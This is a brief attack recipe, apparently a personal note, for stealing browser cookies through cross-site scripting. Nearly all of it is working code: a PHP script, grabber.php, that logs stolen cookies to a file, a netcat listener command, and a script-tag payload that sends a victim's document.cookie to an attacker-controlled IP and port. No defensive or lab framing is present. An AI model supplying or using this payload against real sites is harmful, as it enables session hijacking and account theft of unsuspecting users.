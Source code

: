 1. find xss
2. create malicious php code
```bash
cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF
```
3. set listener
```bash
rlwrap nc -nvlp <port>
```
3. insert xss:
```js
<script>document.location='http://<your ip>:<port>/grabber.php?c='+document.cookie</script>
```
